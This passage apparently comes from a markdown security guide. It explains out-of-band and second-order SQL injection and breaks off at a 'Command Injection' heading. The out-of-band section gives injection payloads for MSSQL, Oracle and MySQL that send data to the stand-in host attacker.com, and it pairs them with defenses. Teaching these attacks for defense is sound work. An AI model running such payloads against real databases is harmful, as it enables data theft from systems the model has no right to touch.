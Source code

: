 - _Example_: `'; SELECT load_file('\\\\attacker.com\\leak') --`

> 🔍 **Out-of-Band SQLi Summary**  
> - **What is it?**: OOB SQLi is used when attackers cannot use the same channel to exfiltrate data (e.g., no error or timing feedback).  
> - **How it works**: The database sends data to an external server controlled by the attacker, often using DNS or HTTP requests.  
> - **Payload Examples**:
>   - **MSSQL**: `'; exec master..xp_dirtree '\\attacker.com\test' --`
>   - **Oracle**: `'; UTL_HTTP.REQUEST('http://attacker.com/leak') --`
>   - **MySQL**: `'; SELECT LOAD_FILE('\\\\attacker.com\\leak') --`
> - **When used**: Useful when UNION, error, and time-based SQLi aren't viable.  
> - **Defenses**:
>   - Disable dangerous functions like `LOAD_FILE`, `xp_cmdshell`, `UTL_HTTP`, etc.  
>   - Restrict outbound network access from the database server.  
>   - Use strict input validation and parameterized queries.

> 🧠 Note: This method requires features like `load_file`, `xp_dirtree`, or DNS lookups to be enabled in the DBMS.

---

### Second-Order SQLi

Second-order SQLi occurs when malicious input is stored by the application (e.g., in a database) and later used unsafely in a different SQL context.

**How It Works:**
- Attacker submits payload in a **non-executing context** (e.g., signup form, profile update).
- Later, the app **retrieves and uses** that stored data in a vulnerable SQL query **without sanitization**.
- The SQLi is triggered **indirectly**, making detection harder.

**Example Scenario:**
1. User signs up with a username:  
   `'admin' --`  
   (no attack triggered here)  
2. Later, the app runs:  
   ```sql
   SELECT * FROM users WHERE username = '$stored_username'
   ```
   → SQLi triggers here when `$stored_username` is inserted unsanitized.

**Challenges:**
- Harder to detect during testing (no immediate feedback)
- Exploitation depends on internal workflows or re-use of data

**Defenses:**
- Sanitize and validate **both at input and output** stages
- Use **parameterized queries** always, even when reusing stored values
- Audit flows where stored data is later injected into queries

---

## 🛠️ Command Injection
